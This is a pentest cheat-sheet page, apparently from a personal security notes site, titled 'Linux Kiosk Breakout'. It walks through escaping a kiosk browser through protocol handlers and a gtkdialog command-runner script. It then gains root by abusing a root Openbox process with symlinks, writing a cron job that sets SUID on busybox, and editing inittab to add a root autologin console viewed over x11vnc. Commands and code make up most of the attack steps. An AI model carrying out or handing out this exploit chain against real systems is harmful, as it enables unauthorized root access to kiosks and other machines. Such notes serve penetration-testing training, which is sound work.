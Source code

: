 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Linux_Kiosk_Breakout
---
```


<span style="font-size: 35px; color:red"><b>Linux Kiosk Breakout</b></span>
&nbsp;

```shell
sudo apt install tigervnc-viewer
```

Use <span style="color:red">xtigervncviewer</span> to connect.

If the kiosk presents a browser page, try:
- <span style="color:red">file:///var/www/localhost/ </span>
- <span style="color:red">file:///var/www/localhost/index.html </span>
- <span style="color:red">chrome://</span><span style="color:red">, </span><span style="color:red">ftp://</span><span style="color:red">, </span><span style="color:red">mailto:</span><span style="color:red">, </span><span style="color:red">smb://</span><span style="color:red">, </span><span style="color:red">irc://</span>

Some of these might open a pop-up window that allows you to <span style="color:red">browse</span> and choose the program you want to use to open the link.
Interesting ones to exploit: <span style="color:red">gtkdialog</span>, <span style="color:red">firefox</span> (to open another firefox window with another profile, unlocking new functions on upper right corner)

If you can access the tools, search <span style="color:red">Web Developer </span> > <span style="color:red">Scratchpad</span>.

You can create the following script and save it as <span style="color:red">terminal.txt</span> to get Local Code Execution:
```html
<window>
  <vbox>
    <vbox scrollable="true" width="500" height="400">
        <edit>
          <variable>CMDOUTPUT</variable>
          <input file>/tmp/termout.txt</input>
        </edit>
    </vbox>
    <hbox>
      <text><label>Command:</label></text>
      <entry><variable>CMDTORUN</variable></entry>
      <button>
          <label>Run!</label>  
          <action>$CMDTORUN > /tmp/termout.txt</action>
          <action>refresh:CMDOUTPUT</action>  
      </button>
    </hbox>
  </vbox>
</window>
```

And call it from Firefox like <span style="color:red">irc://asd -f <path_to_terminal.txt></span>.
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Privilege Escalation</b></span>
Check SUID: <span style="color:red">find / -perm -u=s -exec ls -al {} +</span>
Check running root processes: <span style="color:red">ps aux</span>
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Example of Privilege Excalation</b></span>
Openbox running as root process, if you run <span style="color:red">openbox --replace</span> it will reset everything and re-create the <span style="color:red">/home/guest/.mozilla/firefox/c3pp43bg.default/bookmarks.html</span> file. This allows you to write into privileged directories (<span style="color:red">ln -s /usr/bin /home/guest/.mozilla/firefox/c3pp43bg.default</span>).
You can create a script like the following (<span style="color:red">testscript.sh</span>):
```shell
echo "#!/bin/bash" > /etc/cron.hourly/bookmarks.html
echo "chown root:root /home/guest/busybox" >> /etc/cron.hourly/bookmarks.html
echo "chmod +s /home/guest/busybox" >> /etc/cron.hourly/bookmarks.html
```
This will set SUID bit on our local busybox file using chronojobs.
Once done, create a <span style="color:red">runterminal.sh</span>:
```shell
#!/bin/bash
/usr/bin/gtkdialog -f /home/guest/terminal.txt
```
and execute it like <span style="color:red">/home/guest/busybox sh /home/guest/runterminal.sh</span> to get root shell.

To get a better shell as root, run <span style="color:red">xdotool key Ctrl+Alt+F3</span> in our gtkdialog terminal. If nothing pops up, run:
```shell
cp /etc/X11/xorg.conf.d/10-xorg.conf /home/guest/xorg.txt
chmod 777 /home/guest/xorg.txt
```

To then comment out "DontVTSwitch" in <span style="color:red">/home/guest/xorg.txt</span>. Copy it back to its original location:
```shell
cp /home/guest/xorg.txt /etc/X11/xorg.conf.d/10-xorg.conf
```
and re-configure permissions:
```shell
chmod 644 /etc/X11/xorg.conf.d/10-xorg.conf
```
Run <span style="color:red">openbox --replace</span> again.

```shell
cp /etc/inittab /home/guest/inittab.txt
chmod 777 /home/guest/inittab.txt
```

Under the <span style="color:red">standard console login</span> section under the two commented lines, add a TTY like:
<span style="color:red">c3::respawn:/sbin/agetty --noclear --autologin root 38400 tty3 linux</span>

```shell
cp /home/guest/inittab.txt /etc/inittab
chmod 600 /etc/inittab
/sbin/init q
```
Then create a scratchpad like:
```shell
#!/bin/bash
killall x11vnc 
x11vnc -rawfb vt3
```
make it executable and run it. You should be kicked out of the session. When you will reconnect, you should have root access.
